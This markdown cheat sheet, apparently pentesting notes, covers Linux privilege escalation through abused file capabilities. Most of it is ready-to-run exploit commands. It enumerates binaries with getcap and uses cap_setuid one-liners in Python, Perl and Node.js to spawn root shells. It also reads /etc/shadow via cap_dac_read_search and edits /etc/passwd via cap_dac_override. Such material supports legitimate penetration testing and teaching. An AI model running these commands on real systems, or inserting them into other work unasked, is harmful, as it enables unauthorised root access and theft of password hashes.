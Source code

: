 # Linux Capabilities Abuse

Linux capabilities provide a more fine-grained access control system than the traditional Linux permissions model. They allow specific privileges to be granted to processes without giving them full root access.

## Finding Files with Capabilities

```bash
# List all files with capabilities set on the system
getcap -r / 2>/dev/null
```

## Common Dangerous Capabilities

### CAP_SETUID

The `CAP_SETUID` capability allows a process to set user IDs, including setting the effective user ID to root.

Example of exploitation with Python:

```bash
# If Python has cap_setuid capability
getcap -r / 2>/dev/null | grep python
# Example output: /usr/bin/python3.7 = cap_setuid+ep

# Exploit to get a root shell
/usr/bin/python3.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### CAP_SETGID

Similar to CAP_SETUID, but for group IDs. 

Example:

```bash
# If a binary has cap_setgid capability
getcap -r / 2>/dev/null | grep setgid
# Example output: /usr/bin/perl = cap_setgid+ep

# Exploit to get a shell with root group privileges
/usr/bin/perl -e 'use POSIX (setgid); setgid(0); exec "/bin/bash";'
```

### CAP_DAC_READ_SEARCH

This capability allows bypassing file read permission checks and directory read/execute permission checks.

Example:

```bash
# If a binary has cap_dac_read_search
getcap -r / 2>/dev/null | grep dac_read_search
# Example output: /usr/bin/vim = cap_dac_read_search+ep

# Use to read sensitive files
/usr/bin/vim /etc/shadow
```

### CAP_DAC_OVERRIDE

This capability bypasses file read, write, and execute permission checks.

Example:

```bash
# If a binary has cap_dac_override
getcap -r / 2>/dev/null | grep dac_override
# Example output: /usr/bin/nano = cap_dac_override+ep

# Use to write to protected files
/usr/bin/nano /etc/passwd
```

## Exploitable Binaries with Capabilities

### Python with cap_setuid

If Python has the `cap_setuid` capability, you can exploit it to get a root shell:

```bash
# Check if Python has the capability
getcap -r /usr/bin/python* 2>/dev/null

# If it does, use this to get a root shell
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### Perl with Capabilities

Perl with certain capabilities can also be exploited:

```bash
# Check if Perl has capabilities
getcap -r /usr/bin/perl* 2>/dev/null

# For cap_setuid+ep
/usr/bin/perl -e 'use POSIX (setuid); setuid(0); exec "/bin/bash";'
```

### Node.js with Capabilities

Node.js can be exploited if it has capabilities:

```bash
# Check for Node.js with capabilities
getcap -r /usr/bin/node* 2>/dev/null

# For cap_setuid+ep
/usr/bin/node -e 'process.setuid(0); require("child_process").spawn("/bin/bash", {stdio: [0, 1, 2]});'
```

### Other Languages and Binaries

Similar techniques can be used with other interpreted languages if they have capabilities set:
- Ruby
- PHP
- Lua

## Setting Capabilities (for Educational Purposes)

If you want to understand how capabilities are set:

```bash
# Setting a capability (requires root)
sudo setcap cap_setuid+ep /path/to/binary
```

## Viewing Information About Capabilities

```bash
# View capabilities of current process
capsh --print

# List all capabilities
capsh --print | grep cap_
```

## Capabilities During Penetration Testing

When performing penetration testing on a Linux system:

1. Always check for files with capabilities set
2. Focus on binaries with dangerous capabilities like setuid, setgid, and dac_override
3. Check interpreted language binaries especially (Python, Perl, Ruby, etc.)
4. Look for unusual or custom binaries with capabilities

## Additional Resources

- [HackTricks - Linux Capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)
- [Linux Capabilities Explained](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)
- [GTFOBins](https://gtfobins.github.io/) - Check for capabilities section for each binary 